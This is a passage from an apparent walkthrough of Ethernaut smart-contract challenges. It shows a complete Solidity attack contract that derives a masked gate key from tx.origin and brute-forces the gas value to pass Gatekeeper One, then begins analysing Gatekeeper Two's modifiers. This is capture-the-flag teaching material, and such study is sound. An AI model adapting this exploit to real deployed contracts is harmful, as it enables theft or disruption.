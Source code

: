 To summarise, if our gate key is of the form `0x B1 B2 B3 B4 B5 B6 B7 B8`
Requirement [1] - B5 B6 should be 0s
Requirement [2] - B1 B2 B3 B4 must not be 0s
Requirement [3] - B7 B8 = Last 2 bytes of our address

So, using the bitwise `&` operation, te gatekey can be obtained as follows -
`bytes8 gatekey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF`

Find th comple solution contract below -

```solidity
contract hack {

  function attack (address _target) public {

    bytes8 gatekey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;

    for (uint64 i; i<=300; i++) { //brute-forcing for the value of i
      uint256 totalgas = i + (8191 * 3);
      (bool result, ) = _target.call{gas: totalgas}(abi.encodeWithSignature("enter(bytes8)", gatekey));

      if (result){
        break;
      }
    }
  }
}
```

If we pass the instance address as _target, and call the attack function, we can easily complete the challenge.

___
## Level 14 [Gatekeeper Two]

This level is similar to the last level, and consists of three gates again which needs to be pased to register as an entrant. Let us go over each gate given in the form of function modifiers individually.

The first modifier - Gate one, is as follows -

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```
This is same as the last level. We need to use an intermediary contract to call the `enter()` function, so that msg.sender and tx.origin are not equal.

The second modifier - Gate two, is as follows -

```solidity
  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
```
